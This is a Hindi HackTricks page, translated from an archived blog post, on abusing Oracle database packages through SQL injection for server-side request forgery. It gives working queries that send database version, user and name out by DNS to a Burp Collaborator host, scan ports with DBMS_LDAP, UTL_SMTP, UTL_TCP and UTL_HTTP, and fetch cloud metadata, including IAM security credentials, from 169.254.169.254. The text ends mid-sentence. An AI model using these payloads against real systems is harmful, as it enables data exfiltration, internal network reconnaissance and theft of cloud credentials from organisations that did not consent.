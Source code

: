 # ओरेकल इंजेक्शन

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks और HackTricks Cloud** github repos में PRs सबमिट करके।

</details>

**इस पोस्ट को [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/) से हटाए गए पोस्ट की वे बैक मशीन कॉपी सर्व करें।**

## SSRF

ओरेकल का उपयोग Out of Band HTTP और DNS अनुरोध करने के लिए अच्छी तरह दस्तावेजीकृत है, लेकिन इंजेक्शन में SQL डेटा को बाहर निकालने के एक साधन के रूप में। हम हमेशा इन तकनीकों/फ़ंक्शनों को बदल सकते हैं ताकि अन्य SSRF/XSPA किया जा सके।

ओरेकल को इंस्टॉल करना वास्तव में बहुत पीड़ादायक हो सकता है, खासकर अगर आप त्वरित उदाहरण सेट करना चाहते हैं। मेरे दोस्त और सहकर्मी [Appsecco](https://appsecco.com) पर, [Abhisek Datta](https://github.com/abhisek), ने मुझे [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) पर पहुंचाया जिसने मुझे एक t2.large AWS Ubuntu मशीन और डॉकर पर एक उदाहरण सेटअप करने की अनुमति दी।

मैंने `--network="host"` फ़्लैग के साथ डॉकर कमांड चलाई ताकि मैं ओरेकल को एक स्थानिक स्थापना के रूप में पूर्ण नेटवर्क एक्सेस के साथ मिमिक कर सकूं, इस ब्लॉगपोस्ट के दौरान।
```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c
```
#### उन Oracle पैकेजेस को जो URL या Hostname/Port Number निर्दिष्टि का समर्थन करते हैं <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

किसी भी पैकेज और फ़ंक्शन को खोजने के लिए जो होस्ट और पोर्ट निर्दिष्टि का समर्थन करते हैं, मैंने [Oracle डेटाबेस ऑनलाइन दस्तावेज़ीकरण](https://docs.oracle.com/database/121/index.html) पर गूगल खोज चलाई। विशेष रूप से,
```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```
खोज ने निम्नलिखित परिणाम वापस किए (बाहरी नेटवर्क कार्रवाई करने के लिए सभी का उपयोग नहीं किया जा सकता)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

यह क्रूड खोज स्पष्ट रूप से `DBMS_LDAP` जैसे पैकेजों को छोड़ देता है (जो एक होस्टनाम और पोर्ट नंबर पास करने की अनुमति देता है) क्योंकि [दस्तावेज़ पृष्ठ](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) आपको बस एक [विभिन्न स्थान](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) पर ले जाता है। इसलिए, ऐसे अन्य ओरेकल पैकेज हो सकते हैं जिनका उपयोग बाहरी अनुरोध करने के लिए किया जा सकता है जिन्हें मैंने छूटा सकता है।

हर गति, चलो हम कुछ पैकेजों पर एक नज़र डालते हैं जिन्हें हमने खोजा और ऊपर सूचीबद्ध किया है।

**DBMS\_LDAP.INIT**

`DBMS_LDAP` पैकेज LDAP सर्वर से डेटा तक पहुंचने की अनुमति देता है। `init()` फ़ंक्शन एक LDAP सर्वर के साथ एक सत्र को प्रारंभ करता है और एक होस्टनाम और पोर्ट नंबर को एक तर्क के रूप में लेता है।

इस फ़ंक्शन को पहले से ही डोक्यूमेंट किया गया है ताकि डेटा को DNS के माध्यम से बाहर ले जाया जा सके, जैसे की नीचे दिखाया गया है
```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```
हालांकि, यह फ़ंक्शन एक होस्टनाम और एक पोर्ट नंबर को तर्क के रूप में स्वीकार करता है, आप इसका उपयोग पोर्ट स्कैनर की तरह करने के लिए भी कर सकते हैं।

यहाँ कुछ उदाहरण हैं:
```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```
`ORA-31203: DBMS_LDAP: PL/SQL - प्रारंभ विफल हुआ।` दिखाता है कि पोर्ट बंद है जबकि एक सत्र मान खुले पोर्ट की ओर पोइंट करता है।

**UTL\_SMTP**

`UTL_SMTP` पैकेज को SMTP के माध्यम से ई-मेल भेजने के लिए डिज़ाइन किया गया है। [ओरेकल दस्तावेज़ साइट पर दिए गए उदाहरण में दिखाया गया है कि आप इस पैकेज का उपयोग कैसे कर सकते हैं](https://docs.oracle.com/database/121/ARPLS/u\_smtp.htm#ARPLS71478)। हालांकि, हमारे लिए, दिलचस्प बात है होस्ट और पोर्ट विनिर्देश करने की क्षमता के साथ।

एक कच्चा उदाहरण नीचे दिखाया गया है `UTL_SMTP.OPEN_CONNECTION` फ़ंक्शन के साथ, जिसमें 2 सेकंड का समय सीमा है।
```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```
**UTL\_TCP**

`UTL_TCP` पैकेज और इसकी प्रक्रियाएँ और फ़ंक्शन सेवाओं के साथ [TCP/IP आधारित संचार की अनुमति देते हैं](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190)। यदि किसी विशेष सेवा के लिए प्रोग्राम किया गया है, तो यह पैकेज आसानी से नेटवर्क में प्रवेश के लिए एक तरीका बन सकता है या पूर्ण सर्वर साइड अनुरोध कर सकता है क्योंकि एक TCP/IP कनेक्शन के सभी पहलुओं को नियंत्रित किया जा सकता है।

उदाहरण [ऑरेकल दस्तावेज़ साइट पर दिखाया गया है कि आप इस पैकेज का उपयोग कैसे कर सकते हैं ताकि आप एक रॉ TCP कनेक्शन बना सकें और एक वेब पेज ला सकें](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190)। हम इसे और भी सरल बना सकते हैं और उसे मिटाकर उदाहरण के लिए मेटाडेटा इंस्टेंस या किसी अन्य TCP/IP सेवा के लिए अनुरोध करने के लिए उपयोग कर सकते हैं।
```
set serveroutput on size 30000;
SET SERVEROUTPUT ON
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
retval pls_integer;
BEGIN
c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
retval := utl_tcp.write_line(c);
BEGIN
LOOP
dbms_output.put_line(utl_tcp.get_line(c, TRUE));
END LOOP;
EXCEPTION
WHEN utl_tcp.end_of_input THEN
NULL;
END;
utl_tcp.close_connection(c);
END;
```
**UTL\_HTTP और वेब अनुरोध**

दिलचस्पी से, क्योंकि रॉ TCP अनुरोधों को तैयार करने की क्षमता है, इस पैकेज का उपयोग सभी क्लाउड प्रदाताओं की इंस्टेंस मेटा-डेटा सेवा का पूछताछ करने के लिए भी किया जा सकता है क्योंकि विधि प्रकार और अतिरिक्त हेडर सभी TCP अनुरोध के भीतर पारित किए जा सकते हैं।
```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```
आप इसका उपयोग करके कुछ प्राथमिक पोर्ट स्कैनिंग भी कर सकते हैं जैसे कि क्वेरीज़ के साथ
```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```
`ORA-12541: TNS:no listener` या `TNS:operation timed out` एक संकेत है कि TCP पोर्ट बंद है, जबकि `ORA-29263: HTTP protocol error` या डेटा एक संकेत है कि पोर्ट खुला है।

मैंने पिछले में एक अन्य पैकेज का उपयोग किया है जिसमें विभिन्न सफलता थी, वह है [`GETCLOB()` मेथड का उपयोग करना `HTTPURITYPE` ओरेकल अबस्ट्रैक्ट टाइप](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) जो आपको एक URL के साथ बातचीत करने और HTTP प्रोटोकॉल के लिए समर्थन प्रदान करता है। `GETCLOB()` मेथड का उपयोग किया जाता है एक URL से GET प्रतिक्रिया को एक [CLOB डेटा प्रकार](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html) के रूप में प्राप्त करने के लिए। [select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;
